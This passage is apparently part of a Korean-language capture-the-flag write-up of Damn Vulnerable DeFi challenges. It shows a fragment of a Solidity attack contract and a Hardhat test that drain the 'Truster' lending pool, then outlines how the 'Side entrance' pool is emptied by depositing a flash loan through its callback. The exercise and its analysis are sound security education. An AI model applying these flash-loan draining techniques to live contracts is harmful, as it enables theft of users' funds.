 ```solidity
        );

        pool.flashLoan(0, owner, address(dvt), data);
        dvt.transferFrom(address(pool), owner, dvt.balanceOf(address(pool)));
    }
}
```

```solidity
it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const TrusterAttacker = await ethers.getContractFactory(
      "TrusterLenderAttacker",
      attacker
    );
    this.attackContract = await TrusterAttacker.deploy(
      this.token.address,
      this.pool.address,
      TOKENS_IN_POOL
    );
    await this.attackContract.connect(attacker).drain();
  });
```

functionCall 은 강력한 함수. 다른 contract를 call할 떄 권한 인증이 중요.

# Challenge #4 - Side entrance

### 설명

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

### 목표

pool balance 다 털기. attacker balance는 초기 값보다 높으면 됨.

### 분석

contract에서 deposit과 withdraw는 mapping된 변수를 사용하지만 flashloan 함수는 address에서 직접 가져옴.

flashloan 에는 execute가 있음.

### 공격

공격 컨트랙트에서 flashloan을 호출하고 execute를 통해 deposit 함수를 실행하게 함. 

deposit된 balance는 공격자 컨트랙트가 가짐. balances[msg.sender]
